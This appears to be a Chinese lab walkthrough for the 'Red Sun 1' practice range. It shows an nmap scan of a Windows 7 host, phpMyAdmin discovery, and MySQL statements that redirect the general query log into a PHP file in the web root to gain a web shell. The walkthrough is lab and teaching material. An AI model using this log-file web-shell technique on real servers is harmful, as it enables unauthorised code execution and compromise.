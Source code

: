 ## 红日1
### win7 外网
`192.168.36.135`192.168.36.135
nmap扫端口
```text
Nmap scan report for 192.168.36.135
Host is up (0.00019s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1057/tcp open  startron
3306/tcp open  mysql
```

dirb扫描到phpmyadmin,看到yxcms里有admin的密码,解出来得到`949ba59abbe56e05`

执行sql语句无法直接写入文件,采用日志文件getshell
(1) 开启日志记录:

set global general_log = "ON";
(2) 查看当前的日志目录:

show variables like 'general%';
(3) 指定日志文件

set global general_log_file = "C:/phpStudy/PHPTutorial/WWW/404.php";
(4)) 写入执行代码：

select "<?php phpinfo();?>";

成功getshell
![Uploading file...mnrt3]()

